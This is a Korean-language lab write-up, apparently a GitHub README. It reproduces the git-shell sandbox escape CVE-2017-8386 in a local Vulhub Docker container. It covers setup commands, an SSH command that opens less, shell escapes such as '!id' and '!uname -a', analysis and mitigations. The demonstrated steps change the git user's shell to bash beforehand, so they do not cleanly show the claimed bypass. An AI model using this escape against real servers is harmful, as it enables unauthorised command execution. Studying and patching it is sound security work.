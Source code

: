 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다.  
하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해  
sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

git clone https://github.com/phith0n/vulhub.git
cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash
chsh -s /bin/bash git
su git
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
vim ~/.ssh/authorized_keys

### 2.6 추가 패키지 설치
apt update
apt install less -y
apt install man-db -y
	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"
• less 화면 진입 성공
• ! 명령어를 통해 시스템 명령어 실행 가능

### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
• !whoami -> 현재 사용자(git)
• !uname -a -> 시스템 커널 정보 출력
• !ls /home/git -> git 홈 디렉토리 파일 목록 출력

## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/vulhub
